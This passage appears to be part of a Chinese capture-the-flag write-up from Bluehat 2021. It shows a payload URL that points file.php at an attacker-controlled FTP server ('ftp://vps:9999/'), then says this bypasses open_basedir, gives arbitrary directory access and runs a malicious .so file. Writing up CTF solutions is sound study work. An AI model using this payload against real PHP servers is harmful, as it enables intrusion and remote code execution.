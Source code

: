 ### 干

干就完事了，访问`file.php`用payload打

`./file.php?file=ftp://vps:9999/&data=xxx`

![gan](bluehat2021/image-20210503144504813.png)

可以看到dump出来`int(681)`，这里就是打的数据包大小

这时已经突破open_basedir，可以任意访问目录了，同时也执行了恶意.so文件

![ls/](bluehat2021/image-20210503144951807.png)
